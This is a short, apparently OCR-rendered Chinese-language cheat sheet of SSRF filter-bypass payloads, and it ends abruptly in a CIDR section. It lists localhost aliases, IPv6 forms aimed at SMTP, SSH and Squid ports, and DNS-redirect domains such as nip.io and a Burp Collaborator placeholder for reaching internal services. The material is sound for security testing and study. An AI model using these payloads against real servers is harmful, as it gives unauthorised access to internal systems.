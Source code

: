 ```php
?>
```

简要使用

```
http://test.com?url=http://xxx.com/redirect.php
```

## SSRF Bypass

#### for localhost

```python
#localhost
http://localhost:80
#127.0.0.1
http://127.0.0.1:80
#0.0.0.1
http://0.0.0.0:80
```

#### 绕过filter

**using https**

```
http:// --> https://127.0.0.1:80
```

**使用[::]绕过localhost限制**

```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
```

**域名重定向**

```
localh.st	--> 			   127.0.0.1
spoofed.[BURP_COLLABORATOR]		127.0.0.1
spoofed.redacted.oastify.com	127.0.0.1
company.127.0.0.1.nip.io	    127.0.0.1
```

nip.io 是一个专门用于本地开发和测试的 DNS 服务。它提供了一个简单的方式来将任何 IP 地址映射到一个可访问的域名上，这个域名的格式为 {IP 地址}.nip.io。

**通过CIDR绕过localhost限制**

CIDR（Classless Inter-Domain Routing，无类域间路由选择）是一种用于分配和管理 IP 地址的标准方法。它是在IPv4地址耗尽的情况下引入的，以更有效地使用现有的IP地址空间。
